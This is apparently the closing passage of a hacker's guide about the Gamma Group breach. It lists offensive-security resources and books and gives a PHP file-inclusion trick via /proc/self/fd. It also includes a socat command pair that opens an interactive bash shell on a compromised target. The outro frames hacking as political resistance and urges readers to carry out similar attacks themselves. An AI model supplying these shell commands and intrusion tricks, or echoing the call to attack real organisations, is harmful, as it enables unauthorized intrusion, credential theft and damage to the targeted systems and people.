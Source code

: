 * https://www.pentesterlab.com/exercises/
* http://overthewire.org/wargames/
* http://www.hackthissite.org/
* http://smashthestack.org/
* http://www.win.tue.nl/~aeb/linux/hh/hh.html
* http://www.phrack.com/
* http://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot
* http://www.offensive-security.com/metasploit-unleashed/PSExec_Pass_The_Hash
* https://securusglobal.com/community/2013/12/20/dumping-windows-credentials/
* https://www.netspi.com/blog/entryid/140/resources-for-aspiring-penetration-testers
  (all his other blog posts are great too)
* https://www.corelan.be/ (start at Exploit writing tutorial part 1)
* http://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/
  One trick it leaves out is that on most systems the apache access log is
  readable only by root, but you can still include from /proc/self/fd/10 or
  whatever fd apache opened it as. It would also be more useful if it mentioned
  what versions of php the various tricks were fixed in.
* http://www.dest-unreach.org/socat/
  Get usable reverse shells with a statically linked copy of socat to drop on
  your target and:
  target$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp-listen:PORTNUM
  host$ socat file:`tty`,raw,echo=0 tcp-connect:localhost:PORTNUM
  It's also useful for setting up weird pivots and all kinds of other stuff.

Books:

* The Web Application Hacker's Handbook
* Hacking: The Art of Exploitation
* The Database Hacker's Handbook
* The Art of Software Security Assessment
* A Bug Hunter's Diary
* Underground: Tales of Hacking, Madness, and Obsession on the Electronic Frontier
* TCP/IP Illustrated

Aside from the hacking specific stuff almost anything useful to a system
administrator for setting up and administering networks will also be useful for
exploring them. This includes familiarity with the windows command prompt and unix
shell, basic scripting skills, knowledge of ldap, kerberos, active directory,
networking, etc.


--[ 10 ]-- Outro

You'll notice some of this sounds exactly like what Gamma is doing. Hacking is a
tool. It's not selling hacking tools that makes Gamma evil. It's who their
customers are targeting and with what purpose that makes them evil. That's not
to say that tools are inherently neutral. Hacking is an offensive tool. In the
same way that guerrilla warfare makes it harder to occupy a country, whenever
it's cheaper to attack than to defend it's harder to maintain illegitimate
authority and inequality. So I wrote this to try to make hacking easier and more
accessible. And I wanted to show that the Gamma Group hack really was nothing
fancy, just standard sqli, and that you do have the ability to go out and take
similar action.

Solidarity to everyone in Gaza, Israeli conscientious-objectors, Chelsea
Manning, Jeremy Hammond, Peter Sunde, anakata, and all other imprisoned
hackers, dissidents, and criminals!
